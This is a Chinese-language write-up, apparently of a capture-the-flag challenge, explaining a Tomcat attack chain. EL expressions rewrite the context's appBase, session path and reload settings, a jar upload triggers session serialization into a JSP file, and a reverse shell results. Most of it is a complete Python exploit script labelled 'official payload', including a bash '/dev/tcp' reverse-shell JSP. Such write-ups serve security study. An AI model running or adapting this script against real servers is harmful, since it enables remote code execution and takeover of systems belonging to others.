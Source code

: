 但是作者压根就没想去成功加载jar包，作者的解决方案是在 reload 之前，通过修改 appBase为根目录

```jsp
${pageContext.servletContext.classLoader.resources.context.parent.appBase="/"}
```

pageContext.servletContext.classLoader.resources.context代表StandardContext，其parent为StandardHost。而appBase 属性表示所有存放 webapp 的目录，它的值默认是 webapps

假如我们通过 EL 表达式把它的值修改为系统根目录 / ，这时候会发生一个很神奇的事情，就是整个系统盘全部被映射到 Tomcat 上了，整个系统文件资源你都可以直接通过 Tomcat 去访问

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/640.png)

这样的话，就算原来的应用因为 Context reload 失败而导致 404 失效，还有其他的目录都可供访问。而原来的应用打成404了，Tomcat不会崩溃，依旧能允许解析jsp。那么我们写jsp的时候就写到/tmp下，appBase改为/或/tmp，web业务挂掉也能访问恶意jsp。

>分清楚顺序，检查jar文件有变动就会触发reload写session文件，而reload先stop写文件，然后start再加载jar。而且Tomcat 在加载 JAR 包时，如果遇到 某个 JAR 加载失败（比如格式损坏、类冲突、验证异常）**，**一般不会崩溃，而是继续加载其它 JAR 包，并输出错误日志。所以JAR错误并不会影响到写文件。

payload是先写一个受限的jsp修改配置满足reload需求，然后利用受限jsp向session写一个不受限的jsp内容(使用了`<`这种敏感字符)，然后向/WEB-INF/lib上传jar触发reload触发session序列化写文件，最后访问不受限的jsp反弹shell

官方paylaod：

```python
#!/usr/bin/env python3

import sys
import time
import requests

PROXIES = None

if __name__ == '__main__':
    target_url = sys.argv[1]  # e.g. http://47.243.235.228:39465/
    reverse_shell_host = sys.argv[2]
    reverse_shell_port = sys.argv[3]

    el_payload = r"""${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
    ${sessionScope[param.b]=param.c}
    ${pageContext.servletContext.classLoader.resources.context.reloadable=true}
    ${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}"""

    reverse_shell_jsp_payload = r"""<%Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "sh -i >& /dev/tcp/""" + reverse_shell_host + "/" + reverse_shell_port + r""" 0>&1"});%>"""
    r = requests.post(url=f'{target_url}/export', data={'dir': '', 'filename': 'a.jsp', 'content': el_payload, },
                      proxies=PROXIES)#目标export为上传路由

    shell_path = r.text.strip().split('/')[-1]
    shell_url = f'{target_url}/export/{shell_path}'

    r2 = requests.post(url=shell_url,
                       data={'a': '/tmp/session.jsp', 'b': 'voidfyoo', 'c': reverse_shell_jsp_payload, 'd': '/', },
                       proxies=PROXIES)#对应param.a,b,c,d

    r3 = requests.post(url=f'{target_url}/export',
                       data={'dir': './WEB-INF/lib/', 'filename': 'a.jar', 'content': 'a', },
                       proxies=PROXIES)

    time.sleep(10)  # wait a while

    r4 = requests.get(url=f'{target_url}/tmp/session.jsp', proxies=PROXIES)
```
